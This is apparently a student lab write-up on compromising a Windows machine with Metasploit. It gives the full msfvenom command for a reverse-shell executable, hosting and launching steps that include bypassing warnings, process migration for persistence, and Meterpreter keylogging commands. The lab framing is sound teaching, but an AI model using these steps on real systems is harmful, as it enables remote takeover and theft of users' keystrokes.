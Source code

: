 # Compromising-windows-using-Metasploit

## AIM:

To Compromise windows using Metasploit 

## DESIGN STEPS:

1) Install kali linux either in partition or virtual box or in live mode

2) Investigate on the various categories of tools as follows:

3) Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

### PROGRAMS:

Find the attackers ip address using ifconfig

#### OUTPUT:
![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/652db2a7-41fe-4f0b-9d6a-bafd45358c66)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

#### OUTPUT:

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/8a94c14f-93c4-44c0-9307-09d091275f2a)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/00951cdd-6e72-425a-a7d3-3861205e75a1)

Start apache server sudo systemctl apache2 start

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/ab5917bc-b667-43e6-8569-afac549df4de)

Check the status of apache2

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/2b2a7279-1968-4f7b-ac9d-25a6fbd9d8f8)

### Invoke msfconsole:'

#### OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler


![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/f81fb9a9-568e-48de-a97d-224f14916b52)

set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/8905bab0-5573-4be1-82ca-a6a510ed478f)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/3b376e36-9001-421e-9301-ffb999a638f1)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/89123af1-f1c2-4cfb-a5a8-c24bdc714336)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/d3eab66d-7142-4366-ac4d-d2644fc02717)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/6b83ef4d-6410-45d3-a6ae-f63b3b13c953)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/2ee279ad-7ce2-426b-960c-a92a0c067e8a)





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
